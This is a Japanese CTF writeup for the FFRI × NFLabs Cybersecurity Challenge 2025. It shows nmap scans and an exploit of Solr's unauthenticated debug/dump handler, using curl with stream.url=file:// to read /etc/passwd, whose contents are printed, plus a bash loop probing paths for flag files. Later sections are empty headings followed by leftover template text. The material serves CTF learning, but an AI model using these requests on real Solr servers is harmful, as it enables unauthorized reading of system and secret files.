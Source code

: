 ```yaml
---
title: "FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup & Upsolve"
date: "2025/09/15"
---
```


# FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup

FFRI × NFLabs. Cybersecurity Challenge 2025に参加しており、13位でした。<br>
Top10にはせめて入りたいなと思いながらやっていました。悔しいです。
![ranking](/src/content/image/FFRI_NFLabs_ranking.png)

## Welcome [ 1/1 ]
### Welcome [175pt / 66 solves]
提出のみ
```
flag{Good_Luck_and_Have_Fun!}
```

## Pentest [ 3/7 ]
### HiddenService[255pt / 50 solves]
nmapを実行すると、22番ポートでsshと31337番ポートでApacheのサービスが動いていることが分かる。
```bash
$ nmap 10.0.129.138 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 16:51 JST
Nmap scan report for ip-10-0-129-138.ap-northeast-1.compute.internal (10.0.129.138)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
31337/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```
31337番ポートにアクセスすると、Shellにアクセスできる。<br>
catやlsが実行できるため、flag.txtがあるディレクトリを探索するとflagをGET。
![Hidden_result](/src/content/image/Hidden_result.png)
```
flag{Ch4nging_th3_p0rt_is_p0intl3ss}
```
### Shell4Solr [455pt / 16 solves]
nmapを実行すると、80番ポートでApatch Solr、2222番ポートでsshが動いていることが分かる。
```bash
$ nmap 10.0.129.148 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 17:19 JST
Nmap scan report for ip-10-0-129-148.ap-northeast-1.compute.internal (10.0.129.148)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache Solr
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```
80番ポートにアクセスすると、Apatch Solrの管理画面が表示される。バージョンは8.11.0。問題文のヒントより、log4jの脆弱性がこのサイトには含まれているらしいので、この[Github](https://github.com/LucasPDiniz/CVE-2021-44228)を参考にlog4jのpocを検証した。payloadを送信するとnetcatで結果が返されることが分かったので、log4jの脆弱性を使うのは確定なのだろう
![alt text](image.png)
この[poc](https://github.com/mbechler/marshalsec)を検証しようとしたがJDK17でビルドしようとしていたため、java.base/java.langなどが開かず、うまく動かない。Dockerなどを用意して何とかビルドしようとしていたが、うまくいかず断念<br>
調査する上で、Logging画面(/~logging)にauthentication=disabled authorization=disabledと出ているのを発見。GPTを使いながら調べているとSolrには開発・デバッグ用途の DumpRequestHandler があり、ContentStreams（stream.*）をそのまま返す挙動があるらしく、管理系が認証なしで空いているのでデバッグ系も空いている可能性が高いと判断した。そのため`GET /solr/<core>/debug/dump?param=ContentStreams`というリクエストを送ると、レスポンスが返ってくるのかを確認。加えて`param=`という引数を与えているので、ここでLFIができるのかも一緒に検証
```bash
$ curl -s "http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd"
```
```JSON
{
  "responseHeader": {
    "status": 0,
    "QTime": 7,
    "handler": "org.apache.solr.handler.DumpRequestHandler",
    "params": {
      "param": "ContentStreams",
      "stream.url": "file:///etc/passwd"
    }
  },
  "params": {
    "stream.url": "file:///etc/passwd",
    "echoHandler": "true",
    "param": "ContentStreams",
    "echoParams": "explicit"
  },
  "streams": [
    {
      "name": null,
      "sourceInfo": "url",
      "size": null,
      "contentType": null,
      "stream": "root:x:0:0:root:/root:/bin/ash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/mail:/sbin/nologin\nnews:x:9:13:news:/usr/lib/news:/sbin/nologin\nuucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\nman:x:13:15:man:/usr/man:/sbin/nologin\npostmaster:x:14:12:postmaster:/var/mail:/sbin/nologin\ncron:x:16:16:cron:/var/spool/cron:/sbin/nologin\nftp:x:21:21::/var/lib/ftp:/sbin/nologin\nsshd:x:22:22:sshd:/dev/null:/sbin/nologin\nat:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin\nsquid:x:31:31:Squid:/var/cache/squid:/sbin/nologin\nxfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin\ngames:x:35:35:games:/usr/games:/sbin/nologin\ncyrus:x:85:12::/usr/cyrus:/sbin/nologin\nvpopmail:x:89:89::/var/vpopmail:/sbin/nologin\nntp:x:123:123:NTP:/var/empty:/sbin/nologin\nsmmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin\nguest:x:405:100:guest:/dev/null:/sbin/nologin\nnobody:x:65534:65534:nobody:/:/sbin/nologin\nsolr:x:1000:1000:Linux User,,,:/opt/solr:/bin/ash\n"
    }
  ],
  "context": {
    "webapp": "/solr",
    "path": "/debug/dump",
    "httpMethod": "GET"
  }
}

```
すると`file:///etc/passwd`の中身が返ってきて、LFI成功<br>
環境変数に`HOME=/opt/solr`, `PWD=/opt/solr/server`とあるため、ここから連想されるflag.txtがあるディレクトリに対してリクエストを送るとflagをゲットできた。(ログが長いので省略)
```bash
CORE=${CORE:-core0}
BASE="http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file://"

for p in \
  /etc/flag /etc/flag.txt \
  /opt/flag /opt/flag.txt \
  /var/flag /var/flag.txt \
  /opt/solr/flag /opt/solr/flag.txt \
  /opt/solr/server/flag /opt/solr/server/flag.txt \
  /opt/solr/server/solr/flag /opt/solr/server/solr/flag.txt \
  /var/solr/flag /var/solr/flag.txt \
  /run/secrets/flag /run/secrets/flag.txt /run/secrets/FLAG \
  /etc/motd /etc/issue /etc/hostname
do
  echo "=== $p"
  curl -s "${BASE}$p"
  echo
done
```
```JSON
{
  "responseHeader": {
    "status": 0,
    "QTime": 1,
    "handler": "org.apache.solr.handler.DumpRequestHandler",
    "params": {
      "param": "ContentStreams",
      "stream.url": "file:///opt/solr/server/flag.txt"
    }
  },
  "params": {
    "stream.url": "file:///opt/solr/server/flag.txt",
    "echoHandler": "true",
    "param": "ContentStreams",
    "echoParams": "explicit"
  },
  "streams": [
    {
      "name": null,
      "sourceInfo": "url",
      "size": null,
      "contentType": null,
      "stream": "flag{l0g4j_s0lr_r3vshell}"
    }
  ],
  "context": {
    "webapp": "/solr",
    "path": "/debug/dump",
    "httpMethod": "GET"
  }
}

```
```
flag{l0g4j_s0lr_r3vshell}
```
log4jのpocが使えないことが分かってから1時間くらい格闘してました。

## Web [ 3/4 ]
### Secure Web Company

## Malware Analysis [ 2/4 ]
### Downloader

## Binary [ 2/4 ]
### Abnormal

## Misc [ 3/4 ]
### Bellaso

```
// コードブロック例
const hello = () => {
  console.log("Hello, World!");
};
```

> 引用テキストの例です。

[リンクの例](https://example.com)

**太字**や*斜体*のテキストも使用できます。
